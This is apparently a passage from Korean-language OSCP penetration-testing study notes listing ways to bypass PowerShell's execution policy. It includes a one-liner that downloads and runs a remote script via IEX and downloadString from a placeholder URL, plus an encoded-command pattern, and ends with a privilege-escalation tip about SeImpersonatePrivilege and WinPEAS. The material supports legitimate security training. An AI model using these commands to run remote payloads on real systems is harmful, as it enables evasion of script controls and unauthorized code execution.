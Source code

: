 ## 🔧 PowerShell 실행 정책 우회

```powershell
# 여러 우회 방법들
powershell -ExecutionPolicy Bypass -File script.ps1
powershell -ExecutionPolicy Unrestricted -File script.ps1
powershell -ExecutionPolicy RemoteSigned -File script.ps1
powershell -ep bypass -file script.ps1

# 다운로드 후 실행
powershell "IEX(New-Object Net.WebClient).downloadString('http://url/script.ps1')"

# Base64 인코딩
powershell -EncodedCommand <base64_encoded_command>
```

**기억하세요**: OSCP Windows 환경에서는 SeImpersonatePrivilege가 있는 계정이 매우 많습니다. 이를 최우선으로 확인하고, WinPEAS 결과를 꼼꼼히 분석하세요!
